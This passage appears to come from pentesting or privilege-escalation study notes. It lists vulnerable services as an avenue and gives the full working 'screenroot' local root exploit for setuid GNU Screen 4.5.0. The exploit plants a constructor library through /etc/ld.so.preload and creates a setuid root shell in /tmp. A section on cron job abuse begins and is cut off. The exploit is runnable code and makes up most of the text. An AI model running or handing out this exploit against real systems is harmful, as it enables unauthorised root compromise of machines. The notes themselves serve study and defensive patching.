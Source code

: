## Vulnerable Services
* Many running services may be exploitable 
### Example
### Screen version 4.5.0
```shell
screen -v 
```
#### Script:
```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```
## Cron Job Abuse
* Cron jobs can also be set run on time.
* `Crontab` command can create a cron file. This will be created by the cron daemon on the schedule specified.   
### Cronjob Entry 
| minutes | hours  | days | months | weeks | Meaning        |
| ------- | ------ | ---- | ------ | ----- | -------------- |